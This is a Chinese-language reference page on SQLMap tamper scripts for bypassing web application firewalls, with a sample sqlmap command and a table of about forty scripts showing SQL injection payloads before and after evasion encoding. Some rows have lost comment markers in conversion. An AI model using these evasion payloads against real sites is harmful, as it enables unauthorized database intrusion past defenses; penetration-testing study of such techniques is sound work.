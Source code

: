 # tamper

1、tamper的作用：  
使用SQLMap提供的tamper脚本，可在一定程度上避开应用程序的敏感字符过滤、绕过WAF规则的阻挡，继而进行渗透攻击。

2、WAF是啥？

* WAF：Web应用程序防火墙，Web Application Firewall
* IPS：入侵防御系统， Intrusion Prevention System
* IDS：入侵检测系统，Intrusion Detection System

3、tamper用法

--tamper=TAMPER 利用给定的脚本进行篡改注入数据。其用法可举例说明：

sqlmap.py -u "[http://.../?uname=admin&pwd=pass123](http://.../?uname=admin&pwd=pass123)" --level=5 --risk=3 -p "uname" --tamper=xxx.py

表示对指定的url地址，以所设置的level等级、risk等级，并采用选定的tamper篡改脚本对参数“uname”进行检测

sqlmap中所有的tamper：

各种tamper的适用范围如下图所示：

![](../../.gitbook/assets/image%20%282%29.png)

各tamper的大意如下表格所示：

<table>
  <thead>
    <tr>
      <th style="text-align:left">tamper</th>
      <th style="text-align:left">&#x529F;&#x80FD;</th>
      <th style="text-align:left">&#x4E3E;&#x4F8B;</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td style="text-align:left">apostrophemask.py</td>
      <td style="text-align:left">&#x5BF9;&#x5F15;&#x53F7;&#x8FDB;&#x884C;utf-8&#x683C;&#x5F0F;&#x7F16;&#x7801;(%EF%BC%87)</td>
      <td
      style="text-align:left">1 AND &apos;1&apos;=&apos;1 ==&gt; 1 AND %EF%BC%871%EF%BC%87=%EF%BC%871</td>
    </tr>
    <tr>
      <td style="text-align:left">apostrophenullencode.py</td>
      <td style="text-align:left">&#x7528;&#x975E;&#x6CD5;&#x7684;&#x53CC;unicode&#x5B57;&#x7B26;(%00%27)&#x66FF;&#x6362;&#x5F15;&#x53F7;&#x5B57;&#x7B26;</td>
      <td
      style="text-align:left">1 AND &apos;1&apos;=&apos;1 ==&gt; 1 AND %00%271%00%27=%00%271</td>
    </tr>
    <tr>
      <td style="text-align:left">appendnullbyte.py</td>
      <td style="text-align:left">&#x5728;&#x6709;&#x6548;&#x8F7D;&#x8377;&#x7ED3;&#x675F;&#x4F4D;&#x7F6E;&#x52A0;&#x8F7D;&#x96F6;&#x5B57;&#x8282;&#x5B57;&#x7B26;&#x7F16;&#x7801;</td>
      <td
      style="text-align:left">1 AND 1=1 ==&gt; 1 AND 1=1%00</td>
    </tr>
    <tr>
      <td style="text-align:left">base64encode.py</td>
      <td style="text-align:left">&#x7528;base64&#x683C;&#x5F0F;&#x8FDB;&#x884C;&#x7F16;&#x7801;</td>
      <td
      style="text-align:left">1&apos; AND SLEEP(5)# ==&gt; MScgQU5EIFNMRUVQKDUpIw==</td>
    </tr>
    <tr>
      <td style="text-align:left">between.py</td>
      <td style="text-align:left">&#x7528;between&#x66FF;&#x6362;&#x5927;&#x4E8E;&#x53F7;&#xFF08;&gt;&#xFF09;</td>
      <td
      style="text-align:left">
        <p>1 AND A &gt; B --&#x200A; ==&gt; 1 AND A NOT BETWEEN 0 AND B&#x200A; --</p>
        <p>1 AND A = B --&#x200A; ==&gt; 1 AND A BETWEEN B AND B --</p>
        </td>
    </tr>
    <tr>
      <td style="text-align:left">bluecoat.py</td>
      <td style="text-align:left">&#x5BF9;SQL&#x8BED;&#x53E5;&#x66FF;&#x6362;&#x7A7A;&#x683C;&#x5B57;&#x7B26;&#x4E3A;(%09)&#xFF0C;&#x5E76;&#x66FF;&#x6362;&quot;=&quot;---&gt;&quot;LIKE&quot;</td>
      <td
      style="text-align:left">SELECT username FROM users WHERE id = 1 ==&gt; SELECT%09username FROM%09users
        WHERE%09id LIKE 1</td>
    </tr>
    <tr>
      <td style="text-align:left">apostrophemask.py</td>
      <td style="text-align:left">&#x7528;utf-8&#x683C;&#x5F0F;&#x7F16;&#x7801;&#x5F15;&#x53F7;(&#x5982;&#xFF1A;%EF%BC%87)</td>
      <td
      style="text-align:left">1 AND &apos;1&apos;=&apos;1 ==&gt; 1 AND %EF%BC%871%EF%BC%87=%EF%BC%871</td>
    </tr>
    <tr>
      <td style="text-align:left">charunicodeencode.py</td>
      <td style="text-align:left">&#x5BF9;&#x5B57;&#x7B26;&#x4E32;&#x8FDB;&#x884C;Unicode&#x683C;&#x5F0F;&#x8F6C;&#x4E49;&#x7F16;&#x7801;</td>
      <td
      style="text-align:left">SELECT FIELD%20FROM TABLE ==&gt; %u0053%u0045%u004C%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004C%u0044%u0020%u0046%u0052%u004F%u004D%u0020%u0054%u0041%u0042%u004C%u0045</td>
    </tr>
    <tr>
      <td style="text-align:left">charencode.py</td>
      <td style="text-align:left">&#x91C7;&#x7528;url&#x683C;&#x5F0F;&#x7F16;&#x7801;1&#x6B21;</td>
      <td style="text-align:left">SELECT FIELD FROM%20TABLE ==&gt; %53%45%4C%45%43%54%20%46%49%45%4C%44%20%46%52%4F%4D%20%54%41%42%4C%45</td>
    </tr>
    <tr>
      <td style="text-align:left">chardoubleencode.py</td>
      <td style="text-align:left">&#x91C7;&#x7528;url&#x683C;&#x5F0F;&#x7F16;&#x7801;2&#x6B21;</td>
      <td style="text-align:left">SELECT FIELD FROM%20TABLE ==&gt; %2553%2545%254C%2545%2543%2554%2520%2546%2549%2545%254C%2544%2520%2546%2552%254F%254D%2520%2554%2541%2542%254C%2545</td>
    </tr>
    <tr>
      <td style="text-align:left">commalessmid.py</td>
      <td style="text-align:left">&#x5C06;payload&#x4E2D;&#x7684;&#x9017;&#x53F7;&#x7528; from&#x548C;for&#x4EE3;&#x66FF;&#xFF0C;&#x7528;&#x4E8E;&#x8FC7;&#x6EE4;&#x4E86;&#x9017;&#x53F7;&#x5E76;&#x4E14;&#x662F;3&#x4E2A;&#x53C2;&#x6570;&#x7684;&#x60C5;&#x51B5;</td>
      <td
      style="text-align:left">MID(VERSION(), 1, 1) ==&gt; MID(VERSION() FROM 1 FOR 1)</td>
    </tr>
    <tr>
      <td style="text-align:left">concat2concatws.py</td>
      <td style="text-align:left">CONCAT() ==&gt; CONCAT_WS()&#xFF0C;&#x7528;&#x4E8E;&#x8FC7;&#x6EE4;&#x4E86;CONCAT()&#x51FD;&#x6570;&#x7684;&#x60C5;&#x51B5;</td>
      <td
      style="text-align:left">CONCAT(1,2) ==&gt; CONCAT_WS(MID(CHAR(0),0,0),1,2)</td>
    </tr>
    <tr>
      <td style="text-align:left">equaltolike.py</td>
      <td style="text-align:left">= ==&gt; LIKE&#xFF0C;&#x7528;&#x4E8E;&#x8FC7;&#x6EE4;&#x4E86;&#x7B49;&#x53F7;&quot;=&quot;&#x7684;&#x60C5;&#x51B5;</td>
      <td
      style="text-align:left">SELECT <em> FROM users WHERE id=1 ==&gt; SELECT </em> FROM users WHERE id
        LIKE 1</td>
    </tr>
    <tr>
      <td style="text-align:left">greatest.py</td>
      <td style="text-align:left"></td>
      <td style="text-align:left">1 AND A &gt; B ==&gt; 1 AND GREATEST(A, B+1)=A</td>
    </tr>
    <tr>
      <td style="text-align:left">halfversionedmorekeywords.py</td>
      <td style="text-align:left">&#x7A7A;&#x683C; ==&gt; /*!0 &#xFF08;&#x5728;&#x5173;&#x952E;&#x5B57;&#x524D;&#x6DFB;&#x52A0;&#x6CE8;&#x91CA;&#xFF09;</td>
      <td
      style="text-align:left">union ==&gt; /*!0union</td>
    </tr>
    <tr>
      <td style="text-align:left">ifnull2ifisnull.py</td>
      <td style="text-align:left">IFNULL(A, B) ==&gt; IF(ISNULL(A), B, A)</td>
      <td style="text-align:left">IFNULL(1, 2) ==&gt; IF(ISNULL(1),2,1)</td>
    </tr>
    <tr>
      <td style="text-align:left">informationschemacomment.py</td>
      <td style="text-align:left">
        <p>&#x5728; information_schema &#x540E;&#x9762;&#x52A0;&#x4E0A; /**/ &#xFF0C;&#x7528;&#x4E8E;&#x7ED5;&#x8FC7;&#x5BF9;
          information_schema &#x7684;&#x60C5;&#x51B5;</p>
        <p>retVal = re.sub(r&quot;(?i)(information_schema).&quot;, &quot;g&lt;1&gt;/**/.&quot;,
          payload)</p>
      </td>
      <td style="text-align:left">select table_name from information_schema.tables ==&gt; select table_name
        from information_schema/**/.tables</td>
    </tr>
    <tr>
      <td style="text-align:left">lowercase.py</td>
      <td style="text-align:left">&#x5C06; payload &#x91CC;&#x7684;&#x5927;&#x5199;&#x8F6C;&#x4E3A;&#x5C0F;&#x5199;</td>
      <td
      style="text-align:left">SELECT table_name FROM INFORMATION_SCHEMA.TABLES ==&gt; select table_name
        from information_schema.tables</td>
    </tr>
    <tr>
      <td style="text-align:left">modsecurityversioned.py</td>
      <td style="text-align:left">&#x7528;&#x6CE8;&#x91CA;&#x6765;&#x5305;&#x56F4;&#x5B8C;&#x6574;&#x7684;&#x67E5;&#x8BE2;&#x8BED;&#x53E5;&#xFF0C;&#x7528;&#x4E8E;&#x7ED5;&#x8FC7;
        ModSecurity &#x5F00;&#x6E90; waf</td>
      <td style="text-align:left">1 AND 2&gt;1-- ==&gt; 1 /<em>!30874AND 2&gt;1</em>/--</td>
    </tr>
    <tr>
      <td style="text-align:left">modsecurityzeroversioned.py</td>
      <td style="text-align:left">&#x7528;&#x6CE8;&#x91CA;&#x6765;&#x5305;&#x56F4;&#x5B8C;&#x6574;&#x7684;&#x67E5;&#x8BE2;&#x8BED;&#x53E5;&#xFF0C;&#x7528;&#x4E8E;&#x7ED5;&#x8FC7;
        waf &#xFF0C;&#x548C;&#x4E0A;&#x9762;&#x7C7B;&#x4F3C;</td>
      <td style="text-align:left">1 and 2&gt;1--+ ==&gt; 1 /!00000and 2&gt;1/--+</td>
    </tr>
    <tr>
      <td style="text-align:left">multiplespaces.py</td>
      <td style="text-align:left">&#x56F4;&#x7ED5;SQL&#x5173;&#x952E;&#x5B57;&#x6DFB;&#x52A0;&#x591A;&#x4E2A;&#x7A7A;&#x683C;</td>
      <td
      style="text-align:left">1 UNION SELECT foobar ==&gt; 1 UNION SELECT foobar</td>
    </tr>
    <tr>
      <td style="text-align:left">nonrecursivereplacement.py</td>
      <td style="text-align:left">&#x5173;&#x952E;&#x5B57;&#x53CC;&#x5199;&#xFF0C;&#x53EF;&#x7528;&#x4E8E;&#x5173;&#x952E;&#x5B57;&#x8FC7;&#x6EE4;</td>
      <td
      style="text-align:left">1 UNION SELECT 2-- ==&gt; 1 UNIONUNION SELESELECTCT 2--</td>
    </tr>
    <tr>
      <td style="text-align:left">overlongutf8.py</td>
      <td style="text-align:left">&#x8F6C;&#x6362;&#x7ED9;&#x5B9A;&#x7684;payload&#x5F53;&#x4E2D;&#x7684;&#x6240;&#x6709;&#x5B57;&#x7B26;</td>
      <td
      style="text-align:left">SELECT FIELD FROM TABLE WHERE 2&gt;1 ==&gt; SELECT%C0%AAFIELD%C0%AAFROM%C0%AATABLE%C0%AAWHERE%C0%AA2%C0%BE1</td>
    </tr>
    <tr>
      <td style="text-align:left">percentage.py</td>
      <td style="text-align:left">&#x7528;&#x767E;&#x5206;&#x53F7;&#x6765;&#x7ED5;&#x8FC7;&#x5173;&#x952E;&#x5B57;&#x8FC7;&#x6EE4;&#xFF0C;&#x5728;&#x5173;&#x952E;&#x5B57;&#x7684;&#x6BCF;&#x4E2A;&#x5B57;&#x6BCD;&#x524D;&#x9762;&#x90FD;&#x52A0;&#x4E00;&#x4E2A;(%)</td>
      <td
      style="text-align:left">SELECT FIELD FROM TABLE ==&gt; %S%E%L%E%C%T %F%I%E%L%D %F%R%O%M %T%A%B%L%E</td>
    </tr>
    <tr>
      <td style="text-align:left">randomcase.py</td>
      <td style="text-align:left">&#x5C06; payload &#x968F;&#x673A;&#x5927;&#x5C0F;&#x5199;</td>
      <td style="text-align:left">INSERT ==&gt; InseRt</td>
    </tr>
    <tr>
      <td style="text-align:left">randomcomments.py</td>
      <td style="text-align:left">&#x5728; payload &#x7684;&#x5173;&#x952E;&#x5B57;&#x4E2D;&#x95F4;&#x968F;&#x673A;&#x63D2;&#x5165;&#x6CE8;&#x91CA;&#x7B26;
        /**/ &#xFF0C;&#x53EF;&#x7528;&#x4E8E;&#x7ED5;&#x8FC7;&#x5173;&#x952E;&#x5B57;&#x8FC7;&#x6EE4;</td>
      <td
      style="text-align:left">INSERT ==&gt; I / <b> / N / </b> / SERT</td>
    </tr>
    <tr>
      <td style="text-align:left">securesphere.py</td>
      <td style="text-align:left">&#x5728;payload&#x540E;&#x8FFD;&#x52A0;&#x7279;&#x6B8A;&#x6784;&#x9020;&#x7684;&#x5B57;&#x7B26;&#x4E32;</td>
      <td
      style="text-align:left">1 AND 1=1 ==&gt; 1 AND 1=1 and &apos;0having&apos;=&apos;0having&apos;</td>
    </tr>
    <tr>
      <td style="text-align:left">space2comment.py</td>
      <td style="text-align:left">&#x7528;&#x6CE8;&#x91CA;&#x7B26; // &#x4EE3;&#x66FF;&#x7A7A;&#x683C;&#xFF0C;&#x7528;&#x4E8E;&#x7A7A;&#x683C;&#x7684;&#x7ED5;&#x8FC7;</td>
      <td
      style="text-align:left">SELECT id FROM users ==&gt; SELECT//id//FROM//users</td>
    </tr>
    <tr>
      <td style="text-align:left">space2dash.py</td>
      <td style="text-align:left">&#x7528;[&#x6CE8;&#x91CA;&#x7B26;(--)+&#x4E00;&#x4E2A;&#x968F;&#x673A;&#x5B57;&#x7B26;&#x4E32;+&#x4E00;&#x4E2A;&#x6362;&#x884C;&#x7B26;]&#x66FF;&#x6362;&#x63A7;&#x5236;&#x7B26;</td>
      <td
      style="text-align:left">union select 1,2--+ ==&gt; union--HSHjsJh%0Aselect--HhjHSJ%0A1,2--+</td>
    </tr>
    <tr>
      <td style="text-align:left">space2hash.py</td>
      <td style="text-align:left">&#x7528;[&#x6CE8;&#x91CA;&#x7B26;(#)+&#x4E00;&#x4E2A;&#x968F;&#x673A;&#x5B57;&#x7B26;&#x4E32;+&#x4E00;&#x4E2A;&#x6362;&#x884C;&#x7B26;]&#x66FF;&#x6362;&#x63A7;&#x5236;&#x7B26;</td>
      <td
      style="text-align:left">union select 1,2--+ ==&gt; union%23HSHjsJh%0Aselect%23HhjHSJ%0A1,2--+</td>
    </tr>
    <tr>
      <td style="text-align:left">space2morehash.py</td>
      <td style="text-align:left">&#x7528;&#x591A;&#x4E2A;[&#x6CE8;&#x91CA;&#x7B26;(#)+&#x4E00;&#x4E2A;&#x968F;&#x673A;&#x5B57;&#x7B26;&#x4E32;+&#x4E00;&#x4E2A;&#x6362;&#x884C;&#x7B26;]&#x66FF;&#x6362;&#x63A7;&#x5236;&#x7B26;</td>
      <td
      style="text-align:left">union select 1,2--+ ==&gt; union %23 HSHjsJh %0A select %23 HhjHSJ %0A%23
        HJHJhj %0A 1,2--+</td>
    </tr>
    <tr>
      <td style="text-align:left">space2mssqlblank.py</td>
      <td style="text-align:left">&#x7528;&#x968F;&#x673A;&#x7684;&#x7A7A;&#x767D;&#x7B26;&#x66FF;&#x6362;payload&#x4E2D;&#x7684;&#x7A7A;&#x683C;</td>
      <td
      style="text-align:left">SELECT id FROM users ==&gt; SELECT%0Eid%0DFROM%07users</td>
    </tr>
    <tr>
      <td style="text-align:left">space2mssqlhash.py</td>
      <td style="text-align:left">&#x7528;[&#x5B57;&#x7B26;# +&#x4E00;&#x4E2A;&#x6362;&#x884C;&#x7B26;]&#x66FF;&#x6362;payload&#x4E2D;&#x7684;&#x7A7A;&#x683C;</td>
      <td
      style="text-align:left">union select 1,2--+ ==&gt; union%23%0Aselect%23%0A1,2--+</td>
    </tr>
    <tr>
      <td style="text-align:left">space2plus.py</td>
      <td style="text-align:left">&#x7528;&#x52A0;&#x53F7;(+)&#x66FF;&#x6362;&#x7A7A;&#x683C;</td>
      <td style="text-align:left">SELECT id FROM users ==&gt; SELECT+id+FROM+users</td>
    </tr>
    <tr>
      <td style="text-align:left">space2randomblank.py</td>
      <td style="text-align:left">&#x7528;&#x968F;&#x673A;&#x7684;&#x7A7A;&#x767D;&#x7B26;&#x66FF;&#x6362;payload&#x4E2D;&#x7684;&#x7A7A;&#x683C;</td>
      <td
      style="text-align:left">SELECT id FROM users ==&gt; SELECT%0Did%0DFROM%0Ausers</td>
    </tr>
    <tr>
      <td style="text-align:left">sp_password.py</td>
      <td style="text-align:left">&#x5728;payload&#x8BED;&#x53E5;&#x540E;&#x6DFB;&#x52A0; sp_password &#xFF0C;&#x7528;&#x4E8E;&#x8FF7;&#x60D1;&#x6570;&#x636E;&#x5E93;&#x65E5;&#x5FD7;&#xFF08;Space
        ==&gt; sp_password&#xFF09;</td>
      <td style="text-align:left">1 AND 9227=9227-- ==&gt; 1 AND 9227=9227 -- sp_password</td>
    </tr>
    <tr>
      <td style="text-align:left">symboliclogical.py</td>
      <td style="text-align:left">&#x7528; &amp;&amp; &#x66FF;&#x6362; and &#xFF0C;&#x7528; || &#x66FF;&#x6362;
        or &#xFF0C;&#x7528;&#x4E8E;&#x8FD9;&#x4E9B;&#x5173;&#x952E;&#x5B57;&#x88AB;&#x8FC7;&#x6EE4;&#x7684;&#x60C5;&#x51B5;</td>
      <td
      style="text-align:left">
        <p>1 and 1=1 ==&gt; 1 %26%26 1=1</p>
        <p>1 or 1=1 ==&gt; 1 %7c%7c 1=1</p>
        </td>
    </tr>
    <tr>
      <td style="text-align:left">unionalltounion.py</td>
      <td style="text-align:left">&#x7528; union select &#x66FF;&#x6362;union all select</td>
      <td style="text-align:left">union all select 1,2--+ ==&gt; union select 1,2--+</td>
    </tr>
    <tr>
      <td style="text-align:left">unmagicquotes.py</td>
      <td style="text-align:left">&#x7528;&#x5BBD;&#x5B57;&#x7B26;&#x7ED5;&#x8FC7; GPC addslashes</td>
      <td
      style="text-align:left">1&apos; and 1=1 ==&gt; 1%df%27 and 1=1--</td>
    </tr>
    <tr>
      <td style="text-align:left">uppercase.py</td>
      <td style="text-align:left">&#x5C06;payload&#x4E2D;&#x7684;&#x5C0F;&#x5199;&#x5B57;&#x6BCD;&#x8F6C;&#x4E3A;&#x5927;&#x5199;&#x683C;&#x5F0F;</td>
      <td
      style="text-align:left">insert ==&gt; INSERT</td>
    </tr>
    <tr>
      <td style="text-align:left">varnish.py</td>
      <td style="text-align:left">&#x6DFB;&#x52A0;&#x4E00;&#x4E2A;HTTP&#x5934;&#x201C; X-originating-IP
        &#x201D;&#x6765;&#x7ED5;&#x8FC7;WAF</td>
      <td style="text-align:left">headers = kwargs.get(&quot;headers&quot;, {})headers[&quot;X-originating-IP&quot;]
        = &quot;127.0.0.1&quot;return payload</td>
    </tr>
    <tr>
      <td style="text-align:left">versionedkeywords.py</td>
      <td style="text-align:left">&#x5BF9;&#x975E;&#x51FD;&#x6570;&#x7684;&#x5173;&#x952E;&#x5B57;&#x8FDB;&#x884C;&#x6CE8;&#x91CA;</td>
      <td
      style="text-align:left">1 union select user() ==&gt; 1/!UNION//!SELECT/user()</td>
    </tr>
    <tr>
      <td style="text-align:left">versionedmorekeywords.py</td>
      <td style="text-align:left">&#x5BF9;&#x6BCF;&#x4E2A;&#x5173;&#x952E;&#x5B57;&#x8FDB;&#x884C;&#x6CE8;&#x91CA;&#x5904;&#x7406;</td>
      <td
      style="text-align:left">1 union select user() ==&gt; 1/!UNION//!SELECT/user()</td>
    </tr>
    <tr>
      <td style="text-align:left">xforwardedfor.py</td>
      <td style="text-align:left">&#x6DFB;&#x52A0;&#x4E00;&#x4E2A;&#x4F2A;&#x9020;&#x7684;HTTP&#x5934;&#x201C;
        X-Forwarded-For &#x201D;&#x6765;&#x7ED5;&#x8FC7;WAF</td>
      <td style="text-align:left">headers = kwargs.get(&quot;headers&quot;, {})headers[&quot;X-Forwarded-For&quot;]
        = randomIP()return payload</td>
    </tr>
  </tbody>
</table>


